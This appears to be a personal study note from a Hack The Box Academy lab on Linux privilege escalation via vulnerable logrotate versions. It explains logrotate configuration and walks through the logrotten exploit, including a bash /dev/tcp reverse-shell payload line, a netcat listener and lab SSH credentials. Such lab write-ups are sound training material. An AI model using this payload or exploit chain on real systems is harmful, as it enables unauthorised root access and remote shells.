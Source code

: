 - Archives and or deletes old logs
- Pulls logs from /var/log
- Started periodically via cron
- Controlled via the configuration file /etc/logrotate.conf
- Logs can be renamed or created for each new day, older ones are automatically renamed

```
datboyblu3@htb[/htb]$ man logrotate
datboyblu3@htb[/htb]$ # or
datboyblu3@htb[/htb]$ logrotate --help

Usage: logrotate [OPTION...] <configfile>
  -d, --debug               Don't do anything, just test and print debug messages
  -f, --force               Force file rotation
  -m, --mail=command        Command to send mail (instead of '/usr/bin/mail')
  -s, --state=statefile     Path of state file
      --skip-state-lock     Do not lock the state file
  -v, --verbose             Display messages during rotation
  -l, --log=logfile         Log file or 'syslog' to log to syslog
      --version             Display version information

Help options:
  -?, --help                Show this help message
      --usage               Display brief usage message
```

### Logrotate Config File

```
datboyblu3@htb[/htb]$ cat /etc/logrotate.conf


# see "man logrotate" for details

# global options do not affect preceding include directives

# rotate log files weekly
weekly

# use the adm group by default, since this is the owning group
# of /var/log/syslog.
su root adm

# keep 4 weeks worth of backlogs
rotate 4

# create new (empty) log files after rotating old ones
create

# use date as a suffix of the rotated file
#dateext

# uncomment this if you want your log files compressed
#compress

# packages drop log rotation information into this directory
include /etc/logrotate.d

# system-specific logs may also be configured here.
```

**Logrotate Status File**
This file can be used to set a new rotation either in the status file itself or using the `-f/--force` option
```
datboyblu3@htb[/htb]$ sudo cat /var/lib/logrotate.status

/var/log/samba/log.smbd" 2022-8-3
/var/log/mysql/mysql.log" 2022-8-3
```

**Application Config Files in /etc/logrotate.d**
```
datboyblu3@htb[/htb]$ ls /etc/logrotate.d/

alternatives  apport  apt  bootlog  btmp  dpkg  mon  rsyslog  ubuntu-advantage-tools  ufw  unattended-upgrades  wtmp
```

### Requirements to Exploit
- Must be writable
- Must run as privileged user or root
- Vulnerable Versions:
	- 3.8.6
	- 3.11.0
	- 3.15.0
	- 3.18.0

### Exploit Logrotate

The example is using a prefabricated exploit called [logrotten](https://github.com/whotwagner/logrotten)

**Create Payload**
```
logger@nix02:~$ echo 'bash -i >& /dev/tcp/10.10.14.2/9001 0>&1' > payload
```

**Determine which option logrotate uses in logrotate.conf**
```
logger@nix02:~$ grep "create\|compress" /etc/logrotate.conf | grep -v "#"

create
```

This logrotate option will create a new, empty log after rotating old ones

**Start your listener**
```
datboyblu3@htb[/htb]$ nc -nlvp 9001

Listening on 0.0.0.0 9001
```

**Execute the payload with logrotten**
```
logger@nix02:~$ ./logrotten -p ./payload /tmp/tmp.log
```

## Questions

### SSH
```
ssh htb-student@10.129.204.41
```

### Passwd
```
HTB_@cademy_stdnt!
```

What version of logrotate is on the box and is it vulnerable?
```
htb-student@ubuntu:~$ logrotate --version
logrotate 3.11.0
htb-student@ubuntu:~$
```
Yes it is!

What files/directories can I write to?

The `backup` directory has executable permissions and two files present: access.log and access.log.1

I have read permissions to both but only access.log.1 has data in it as seen in the second code fragment
```
htb-student@ubuntu:~$ ls -l
total 4
drwxr-xr-x 2 htb-student htb-student 4096 Jun 14  2023 backups
htb-student@ubuntu:~$ cd backups/
htb-student@ubuntu:~/backups$ ls -la
total 12
drwxr-xr-x 2 htb-student htb-student 4096 Jun 14  2023 .
drwxr-xr-x 4 htb-student htb-student 4096 Mar 20 23:58 ..
-rw-r--r-- 1 htb-student htb-student    0 Jun 14  2023 access.log
-rw-r--r-- 1 htb-student htb-student   91 Jun 14  2023 access.log.1
htb-student@ubuntu:~/backups$ 

```

The log file shows a curl request to 192.168.0.104 /robbie03 was not found. This 
```
htb-student@ubuntu:~/backups$ cat access.log.1
192.168.0.104 - - [29/Jun/2019:14:39:55 +0000] "GET /robbie03 HTTP/1.1" 404 446 "-" "curl"
htb-student@ubuntu:~/backups$ 
```

Verify logrotate status. This file executed on June 14 2023 at 2:01pm?
```
htb-student@ubuntu:/etc/logrotate.d$ cat /var/lib/logrotate.status
logrotate state -- version 2
"/home/htb-student/backups/access.log" 2023-6-14-14:1:27
```

**Verify Logins**
Logrotate is usually ran by root, so how long/how often is root logging in?
```
htb-student@ubuntu:~/backups$ last | head
root     pts/1        127.0.0.1        Thu Apr 18 01:07 - 01:07  (00:00)
root     pts/1        127.0.0.1        Thu Apr 18 01:06 - 01:06  (00:00)
root     pts/1        127.0.0.1        Thu Apr 18 01:05 - 01:05  (00:00)
root     pts/1        127.0.0.1        Thu Apr 18 01:04 - 01:04  (00:00)
root     pts/1        127.0.0.1        Thu Apr 18 01:03 - 01:03  (00:00)
root     pts/1        127.0.0.1        Thu Apr 18 01:02 - 01:02  (00:00)
root     pts/1        127.0.0.1        Thu Apr 18 01:01 - 01:01  (00:00)
root     pts/1        127.0.0.1        Thu Apr 18 01:00 - 01:00  (00:00)
htb-stud pts/2        10.10.16.10      Thu Apr 18 00:59   still logged in
root     pts/1        127.0.0.1        Thu Apr 18 00:59 - 00:59  (00:00)

```

**Search for logrotate.conf file**

Two logrotate.conf files in linux containers?
```
htb-student@ubuntu:~/backups$ find / -type f -name logrotate.conf 2>/dev/null
/snap/lxd/24918/etc/logrotate.conf
/snap/lxd/23889/etc/logrotate.conf
```

**Contents of each /etc/logrotate.conf file are the same**

```
htb-student@ubuntu:~/backups$ cat /snap/lxd/24918/etc/logrotate.conf
/var/snap/lxd/common/lxd/logs/lxd.log {
    copytruncate
    rotate 7
    delaycompress
    compress
    notifempty
    missingok
    minage 1
}
```

```
htb-student@ubuntu:/etc/logcheck/violations.d$ cat /snap/lxd/24918/etc/logrotate.conf
/var/snap/lxd/common/lxd/logs/lxd.log {
    copytruncate
    rotate 7
    delaycompress
    compress
    notifempty
    missingok
    minage 1

```

Here we can see the different functions of logrotate:

- copytruncate creates a copy of the original log file then deletes the original files content
- rotate: 7 keeps 7 weeks worth of logs
- delaycompress: delays compression of the rotated log files until the next rotation cycle
- compress: compresses logs
- notifempty: ensures that log files are not rotated if they are empty. If a log file is empty, it won't trigger rotation.
- missingok: continue log rotation without reporting any error if any of the specified log files are missing
- minage: do not rotate log file at all unless the log file is at least x days old